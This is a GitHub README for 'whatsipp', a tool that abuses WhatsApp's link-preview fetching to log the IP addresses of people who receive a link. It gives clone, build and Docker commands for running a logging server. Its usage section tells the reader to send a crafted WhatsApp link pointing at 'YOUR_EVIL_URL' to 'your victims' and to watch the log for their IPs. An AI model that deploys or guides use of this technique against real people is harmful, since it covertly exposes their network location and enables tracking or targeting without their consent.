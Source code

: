 ### WhatsApp user’s IP disclosure with Link Preview

#### Synopsis

As you know modern messengers have many features besides their main function — texting.
They are able to play/record music/videos, send photos, send geolocation and so on.

So they are also capable to generate link previews.
Best practice is to generate preview by external proxy server which will fetch content for you. 

However WhatsApp developers decided to rely on internal web engine that comes with OS.

It's not needed to explain that now WhatsApp will leak your IP address on every received link.  

**NOTE: You will need VPS with static IP and domain.**

#### Setup - Classic way

1. Get the repo by `go get` or `git clone` this repo:
`$ go get https://github.com/moldabekov/whatsipp`
`$ git clone https://github.com/moldabekov/whatsipp`

2. Build binary:
`$ make build`

3. Run it:
`$ sudo W_LEAK_PORT=80 ./main`

#### Setup - Docker

1. `docker pull unstab1e/whatsipp`
2. `docker run --rm -it -p 80:8080 unstab1e/whatsipp`

#### Setup - Docker from scratch

1. Get the repo by `go get` or `git clone` this repo:
`$ go get https://github.com/moldabekov/whatsipp`
`$ git clone https://github.com/moldabekov/whatsipp`

2. Run container:
`$ make docker`

#### Usage

* Open WhatApp client and type your URL (*e.g. https://domain.com/leak*)

* Or send this link to your victims: https://api.whatsapp.com/send?phone=+7**PHONE_NUMBER**&text=http%3A%2F%2F**YOUR_EVIL_URL**

* In separate tab watch IP leaks:
`$ tail -f visitors.log`

#### Screenshots

![WhatsAppPreview](https://user-images.githubusercontent.com/669547/39364699-a55eb10c-4a50-11e8-9356-2be82273865f.jpg)

![visitors](https://user-images.githubusercontent.com/669547/39364650-7d6f8b3a-4a50-11e8-90eb-d36da5a446af.png)



#### Credits
Greets goes to *Rahul Kankrale* for figuring out.

#### License
(C) MIT License
